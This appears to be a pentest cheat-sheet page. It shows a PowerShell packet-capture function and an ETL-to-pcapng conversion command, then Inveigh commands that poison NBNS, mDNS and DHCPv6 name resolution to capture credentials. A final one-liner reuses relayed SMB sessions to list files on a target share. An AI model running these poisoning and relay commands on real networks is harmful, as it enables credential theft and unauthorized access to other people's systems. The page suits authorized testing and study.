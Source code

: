 ``` 
```
## Capture Packets directly from Powershell during 60sec and output to ETL
``` 
# Source : https://devblogs.microsoft.com/scripting/packet-sniffing-with-powershell-getting-started/
function Capture
{
	# Create Session
	New-NetEventSession -Name "Session1" -CaptureMode SaveToFile -LocalFilePath ((get-location).tostring() + "\PacketsCaptureOutput.etl")
	# Add Provider to previously created session
	Add-NetEventPacketCaptureProvider -SessionName "Session1" -TruncationLength 512
	# Start Capture
	Start-NetEventSession -Name "Session1"
	# Get info about the session
	#Get-NetEventSession
	# Run X time then Stop
	Start-Sleep -seconds 60
	Stop-NetEventSession -Name "Session1"
	# Remove Session
	Remove-NetEventSession -Name "Session1"
	# Make sure no more sessions are running
	#Get-NetEventSession
}
```
## Convert ETL to PCAP
```
# Source : https://github.com/microsoft/etl2pcapng.git
etl2pcapng.exe in.etl out.pcapng
```
## Inveigh (admin)
```
Invoke-inveigh -ConsoleOutput N -NBNS Y -mDNS Y -HTTPS Y -Proxy Y
Inveigh.exe -dhcpv6 -nbns y -mdns n -proxy y -runtime 30

(Resume console display)
Watch-Inveigh

(List file on target share using multiple established sessions (i.e. 1 to 100) previously obtained with Inveigh-Relay by using Invoke-SMBClient) 
1..100 | % { Invoke-SMBClient -Source \\SERVERIP\backups -session $_ }
```
## Inveigh (user)
```
Invoke-inveigh -ConsoleOutput Y -NBNS Y
```
